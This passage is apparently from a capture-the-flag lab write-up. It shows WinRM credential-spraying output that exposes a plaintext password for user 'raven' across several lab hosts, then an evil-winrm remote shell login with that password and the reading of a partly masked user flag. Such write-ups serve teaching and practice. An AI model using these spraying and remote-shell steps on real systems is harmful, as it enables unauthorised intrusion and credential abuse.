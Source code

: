 SMB         10.129.46.174   5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:manager.htb)
HTTP        10.129.46.137   5985   SAUNA            [*] http://10.129.46.137:5985/wsman
HTTP        10.129.46.151   5985   DC01             [*] http://10.129.46.151:5985/wsman
HTTP        10.129.46.174   5985   DC01             [*] http://10.129.46.174:5985/wsman
SMB         10.129.46.171   5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:manager.htb)
HTTP        10.129.46.171   5985   DC01             [*] http://10.129.46.171:5985/wsman
SMB         10.129.46.161   5985   SAUNA            [*] Windows 10.0 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
HTTP        10.129.46.161   5985   SAUNA            [*] http://10.129.46.161:5985/wsman
WINRM       10.129.46.173   5985   BASTION          [-] Bastion\raven:R4v3nBe5tD3veloP3r!123
WINRM       10.129.46.157   5985   DC01             [-] rebound.htb\raven:R4v3nBe5tD3veloP3r!123
WINRM       10.129.46.137   5985   SAUNA            [-] EGOTISTICAL-BANK.LOCAL\raven:R4v3nBe5tD3veloP3r!123
WINRM       10.129.46.151   5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
WINRM       10.129.46.174   5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
WINRM       10.129.46.171   5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
WINRM       10.129.46.161   5985   SAUNA            [-] EGOTISTICAL-BANK.LOCAL\raven:R4v3nBe5tD3veloP3r!123
{% endvimhl %}

<br>
got a connection using evil-winrm on the pwned ips. there was different flags in all the ips but the correct one was in the original ip which was 10.129.46.174

{% vimhl bash %}
┌──(kali㉿kali)-[~/Tools]
└─$ evil-winrm -i 10.129.46.174 -u raven -p "R4v3nBe5tD3veloP3r\!123"           
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents>
{% endvimhl %}

{% vimhl bash %}
*Evil-WinRM* PS C:\Users\Raven\Documents> ls
cd ..*Evil-WinRM* PS C:\Users\Raven\Documents> cd ..
cd Desktop
*Evil-WinRM* PS C:\Users\Raven> cd Desktop
*Evil-WinRM* PS C:\Users\Raven\Desktop> cat user.txt
28661b3d56b2c90b5bb2c43e0aa*****
{% endvimhl %}

<br>
